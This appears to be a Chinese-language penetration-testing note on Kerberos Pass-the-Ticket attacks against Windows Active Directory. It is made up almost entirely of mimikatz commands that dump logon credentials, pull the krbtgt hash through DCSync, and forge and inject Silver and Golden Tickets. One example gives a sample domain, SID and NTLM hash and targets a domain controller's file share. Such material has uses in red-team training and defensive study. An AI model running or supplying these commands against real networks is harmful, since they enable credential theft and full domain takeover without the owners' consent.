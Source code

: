 # PTT
## Silver_Tickets

导出 Server Hash
```
mimikatz.exe "privilege::debug” "sekurlsa::logonpasswords" "exit" > log.txt
```

使用 mimikatz 伪造白银票据：
```
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt" exit
```

**例子:访问域控上的 cifs 服务(Windoiws 主机间的文件共享)**

在域控上执行以下命令获取本地账户 NTLM Hash 和 SID

```
mimikatz.exe "privilege::debug” "sekurlsa::logonpasswords" "exit" > log.txt
```

![](../../../assets/img/安全/工具/mimikatz/1.png)

然后将生成白银票据注入到内存中,并查看票据生成情况。查看目标的文件共享服务成功：
```
kerberos::golden /domain:ffffffff0x.com /sid:S-1-5-21-1112871890-2494343973-3486175548 /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /rc4:f9ca454a3544172034a8666a79eda95e /service:cifs /user:test /ptt

// 这里的 cifs 是指的文件共享服务，有了 cifs 服务权限，就可以访问域控制器的文件系统
```

访问测试

![](../../../assets/img/安全/工具/mimikatz/2.png)

---

## Golden_Tickets

登录域控抓取 krbtgt 的密码 Hash 和获取域 SID
```
mimikatz.exe log "lsadump::dcsync /domain:<域名> /user:krbtgt"
```

使用 mimikatz 伪造的黄金票据：
```
kerberos::golden /user:<用户名> /domain:<域名> /sid:<域SID> /krbtgt:<Hash> /ticket:test.kiribi
```

利用 mimikatz 的 kerberos::ptt 将黄金票据 test.kiribi 注入到内存中：
```
// 清除缓存的票据
kerberos::purge

// 注入黄金票据 test.kiribi
kerberos::ptt test.kiribi

// 列出票据
kerberos::list
```
